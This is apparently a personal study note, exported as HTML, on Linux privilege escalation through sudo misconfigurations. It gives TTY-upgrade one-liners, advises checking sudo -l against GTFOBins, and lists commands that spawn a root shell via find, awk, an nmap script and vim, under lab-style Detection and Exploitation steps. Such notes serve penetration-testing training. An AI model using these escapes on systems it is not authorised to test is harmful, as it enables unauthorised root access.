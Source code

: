 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Sudo shell escaping</title>
</head><body>Escilation via sudo shell escaping<br/>
<br/>
NOTE POINT<br/>
If you land ina shitty shell... 'No TTY present' and 'must be run from terminal'<br/>
<br/>
try &gt;&gt;&gt; <b>/usr/bin/script -qc /bin/bash /dev/null <br/>
</b>Thanks to https://forum.hackthebox.com/t/su-must-be-run-from-a-terminal/1458/4<br/>
<br/>
also google spawning a tty shell cheat sheet.... let supgrade them shells .... netsec is a goodin<br/>
https://rcenetsec.com/shell-spawning/<br/>
<br/>
also open with <br/>
<br/>
<b>python3 -c &quot;import pty;pty.spawn('/bin/bash')&quot; </b><br/>
<br/>
Start with <b>sudo -l</b>to see what can be run by the user as sudo without a password<br/>
<br/>
Compare your list with <b>GTFO Bins</b><br/>
<br/>
https://gtfobins.github.io/<br/>
<br/>
<img src="image.png"/><br/>
<br/>
we have vim gtfo sudfo has vim<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
<img height="313" src="image 3.png" width="700"/><br/>
<img src="image 4.png"/><br/>
<br/>
<br/>
You can change the payload on some to get better shells<br/>
<br/>
<img src="image 5.png"/><br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection﻿<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: sudo -l<br/>
2. From the output, notice the list of programs that can run via sudo.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type any of the following:<br/>
a. sudo find /bin -name nano -exec /bin/sh \;<br/>
b. sudo awk 'BEGIN {system(&quot;/bin/sh&quot;)}'<br/>
c. echo &quot;os.execute('/bin/sh')&quot; &gt; shell.nse &amp;&amp; sudo nmap --script=shell.nse<br/>
d. sudo vim -c '!sh'<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
</body></html>
